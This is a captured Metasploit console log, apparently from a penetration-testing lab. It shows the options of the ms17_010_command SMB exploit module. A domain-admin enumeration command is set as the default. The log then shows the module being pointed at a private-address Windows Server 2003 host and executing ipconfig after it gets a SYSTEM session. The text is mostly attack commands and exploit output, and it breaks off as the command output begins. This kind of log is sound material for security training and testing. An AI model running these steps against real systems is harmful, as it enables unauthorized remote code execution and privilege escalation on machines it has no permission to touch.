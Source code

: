 ```bash
   COMMAND               net group "Domain Admins" /domain   yes       The command you want to execute on the remote host
   DBGTRACE              false                               yes       Show extra debug trace info
   LEAKATTEMPTS          99                                  yes       How many times to try to leak transaction
   NAMEDPIPE                                                 no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/da  yes       List of named pipes to check
                         ta/wordlists/named_pipes.txt
   RHOSTS                                                    yes       The target host(s), see https://github.com/rapid7/metasploit
                                                                       -framework/wiki/Using-Metasploit
   RPORT                 445                                 yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                       no        Service description to to be used on target for pretty listi
                                                                       ng
   SERVICE_DISPLAY_NAME                                      no        The service display name
   SERVICE_NAME                                              no        The service name
   SMBDomain             .                                   no        The Windows domain to use for authentication
   SMBPass                                                   no        The password for the specified username
   SMBSHARE              C$                                  yes       The name of a writeable share on the server
   SMBUser                                                   no        The username to authenticate as
   THREADS               1                                   yes       The number of concurrent threads (max one per host)
   WINPATH               WINDOWS                             yes       The name of the remote Windows directory

msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.52.141
rhosts => 192.168.52.141
msf6 auxiliary(admin/smb/ms17_010_command) > set command ipconfig
command => ipconfig
msf6 auxiliary(admin/smb/ms17_010_command) > run

[*] 192.168.52.141:445    - Target OS: Windows Server 2003 3790
[*] 192.168.52.141:445    - Filling barrel with fish... done
[*] 192.168.52.141:445    - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.52.141:445    -     [*] Preparing dynamite...
[*] 192.168.52.141:445    -             Trying stick 1 (x64)...Miss
[*] 192.168.52.141:445    -             [*] Trying stick 2 (x86)...Boom!
[*] 192.168.52.141:445    -     [+] Successfully Leaked Transaction!
[*] 192.168.52.141:445    -     [+] Successfully caught Fish-in-a-barrel
[*] 192.168.52.141:445    - <---------------- | Leaving Danger Zone | ---------------->
[*] 192.168.52.141:445    - Reading from CONNECTION struct at: 0x87a26cc8
[*] 192.168.52.141:445    - Built a write-what-where primitive...
[+] 192.168.52.141:445    - Overwrite complete... SYSTEM session obtained!
[+] 192.168.52.141:445    - Service start timed out, OK if running a command or non-service executable...
[*] 192.168.52.141:445    - Getting the command output...
[*] 192.168.52.141:445    - Executing cleanup...
[+] 192.168.52.141:445    - Cleanup was successful
[+] 192.168.52.141:445    - Command completed successfully!
[*] 192.168.52.141:445    - Output for "ipconfig":


Windows IP Configuration


Ethernet adapter Local Area Connection:
```